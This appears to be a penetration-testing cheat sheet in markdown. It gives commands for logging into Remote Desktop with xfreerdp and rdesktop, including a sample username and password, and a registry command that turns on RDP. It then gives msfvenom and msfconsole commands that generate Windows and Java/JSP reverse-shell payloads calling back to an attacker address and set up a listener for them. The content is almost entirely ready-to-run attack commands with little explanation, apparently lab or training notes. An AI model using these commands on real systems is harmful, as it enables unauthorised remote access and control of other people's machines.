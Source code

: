
# Remote Desktop
`xfreerdp /u:nelly /p:nicole1 /v:192.168.190.210`

## Enable Remote Desktop
```powershell
# Turn On
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0
```

## Login with remote desktop
```bash
# Login
rdesktop 172.16.20.20 -d corporate -u username -p password
```

## Login with remote desktop with folder sharing 
```bash
# Login
rdesktop 172.16.20.20 -d corporate -u username -p password -r disk:sharename=//home/username/Desktop/Tools
```

## Login with xfreerdp
```bash
# Login
xfreerdp /u:username /p:password /v:172.16.20.20
```

## Login with xfreerdp with folder sharing 
```bash
# Login
xfreerdp /u:username /p:password /v:172.16.20.20 /drive:/home/username/Desktop/Tools
```

# MSFVenom
## Check msfvenom payloads
```bash
msfvenom -l payloads
```
##
```bash
msfconsole
use exploit/multi/handler
set lhost x.x.x.x
set Iport 4444
exploit

#windows (stageless)
msfvenom -p windows/shell_reverse_tcp LHOST=x.x.x.x LPORT=4444 EXITFUNC=thread -b "\x00" -f python -v shellcode
msfvenom -p windows/shell_reverse_tcp LHOST=x.x.x.x LPORT=4444 -f asp > shell.asp

#Linux (stageless)
msfvenom -p java/jsp_shell_reverse_tcp LHOST=x.x.x.x LPORT=4444 -f war > shell.war
msfvenom -p java/jsp_shell_reverse_tcp LHOST=x.x.x.x LPORT=4444 -f raw > shell.jsp
```